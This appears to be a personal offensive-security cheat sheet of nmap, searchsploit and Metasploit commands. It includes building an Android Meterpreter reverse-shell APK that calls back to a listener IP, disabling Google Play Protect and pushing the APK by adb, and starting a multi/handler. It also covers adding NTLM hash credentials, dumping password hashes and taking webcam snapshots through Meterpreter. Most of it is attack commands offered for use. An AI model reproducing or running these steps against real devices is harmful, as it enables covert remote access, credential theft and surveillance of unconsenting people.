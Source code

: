 ### OffSec  
  
### Network Analysis  

nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
  
nmap -T4 -A -v 192.168.1.1 -sV -oX hosts.xml  
searchsploit --nmap hosts.xml --json | tee router_hosts.json  
  
- Wireshark deauth packages:  
wlan.fc.type_subtype == 12  

### MSF 101  

snap connect metasploit-framework:network-control :network-control  
(do the following or run msf with "sudo -i")
/usr/sbin/setcap cap_net_raw,cap_net_bind_service=+eip $(which ruby)
/usr/sbin/setcap cap_net_raw,cap_net_bind_service=+eip $(which nmap)
  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  
  
### MSF  

ddbb:  
systemctl start postgresql  
msfdb init  
db_status  
  
MSF Workspaces:  
workspace  
workspace lab3  
add -> workspace -a lab1  
del -> workspace -d lab1  
  
Other:  
db_nmap -A 192.168.1.1  (shitty snap integration)  
(from msf) db_nmap --unprivileged -T4 -A -Ao nmap_scans/scan_workspace.xml  
nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chowm -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
  
List by:  
hosts (display scan)  
hosts -c address,os_flavor -S Linux (-c FILTER, -S search)  
services -c name,info -S http  
services -c name,info -p 445  
services -c port,proto,state -p 70-81  
  
Backup:  
db_export -f xml -a workspace_name  
db_import workspace_name  
services -s http -c port 172.16.194.134 -o /root/msfu/http.csv  
  
Credentials:  
creds  
(add) creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  
  
Loot i.e.:  
use post/linux/gather/hashdump  
run  
loot  (--add to save to ddbb, default just lists)  
  
Exploits:  
use  
show targets  
show payloads  
show options  
show advanced  
show evasion  
  
Meterpreter:  
webcam_list  
webcam_snap  
  
### Exploit i.e  

nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chown -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  

use mysql_login  
hosts  
hosts -S Linux -R  

### Scanning tools  

 - auxiliary/scanner/portscan/tcp
hosts -R  

 - auxiliary/scanner/portscan/syn
set INTERFACE wlan1  
set PORTS 80  
set RHOSTS 192.168.1.0/24  
set THREADS 50  

 - auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.200-210  
set THREADS 11  

 - auxiliary/scanner/ip/ipidseq  
(idle scan with zombies)  
set RHOSTS 192.168.1.0/24  
set THREADS 50  
(using zombie to scan host #109 -> #114)  
nmap -Pn -sI 192.168.1.109 192.168.1.114  

